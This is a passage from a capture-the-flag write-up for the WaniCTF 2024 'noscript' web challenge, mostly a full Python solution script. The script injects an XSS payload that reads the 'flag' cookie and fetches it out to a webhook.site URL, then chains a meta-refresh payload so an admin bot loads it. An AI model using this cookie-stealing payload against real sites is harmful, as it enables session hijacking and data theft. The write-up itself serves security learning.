 Then send this last one to the admin to be reported and we should get the cookie in the webhook.

Full python solution(<https://github.com/rerrorctf/writeups/blob/main/2024_06_21_WaniCTF24/web/noscript/writeup.md>):
```py
import requests
import urllib.parse

first = "https://web-noscript-lz56g6.wanictf.org/signin"


p1 = requests.post(first)

note1 = p1.url

# fetch get payload  
fpayload = """<script>
    document.addEventListener('DOMContentLoaded', function() {
        function getCookieValue(name) {
            const value = `; ${document.cookie}`;
            const parts = value.split(`; ${name}=`);
            if (parts.length === 2) return parts.pop().split(';').shift();
        }

        var flagCookieValue = getCookieValue('flag');
        fetch('https://webhook.site/79772fdd-c167-4829-a53c-ba6d3c5fcae6?cookie=' + encodeURIComponent(flagCookieValue), {
            method: 'GET',
            mode: 'no-cors',
            credentials: 'include'
        }).then(response => {
            console.log('Fetch response:', response);
        }).catch(error => {
            console.error('Fetch error:', error);
        });
    });
</script>"""

form_data1 = { "username": fpayload, "profile":"asdfg1"} 

r2 = requests.post(f"{note1}", data=form_data1)

parsed_url = urllib.parse.urlparse(r2.url)

path_parts = parsed_url.path.split('/')
path_parts[1] = 'username'  # Replace 'user' with 'username'
new_path = '/'.join(path_parts)

# Construct the new URL with the modified path
new_url = urllib.parse.urlunparse(('http', 'app:8080', new_path, '', '', ''))
p2 = requests.post(first)

payload2 = f"<meta http-equiv='refresh' content='0;url={new_url}'>"

form_data2 = {"username": "foo", "profile": payload2}

note2 = p2.url

for_admin = urllib.parse.urlparse(note2).path

p3 = requests.post(f"{note2}", data=form_data2)

# send to admin
form_data3 = {"url": for_admin}
```